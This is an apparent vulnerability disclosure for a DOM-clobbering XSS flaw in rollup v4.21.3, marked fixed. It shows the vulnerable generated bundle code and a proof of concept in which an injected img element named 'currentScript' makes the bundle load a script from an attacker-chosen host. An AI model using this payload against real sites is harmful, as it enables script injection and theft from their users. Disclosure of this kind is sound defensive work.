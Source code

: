 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: 2024-CVE-XXXXX
+ Status: Fixed
+ Foundby: TheHulk

### Library

https://github.com/rollup/rollup


### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```

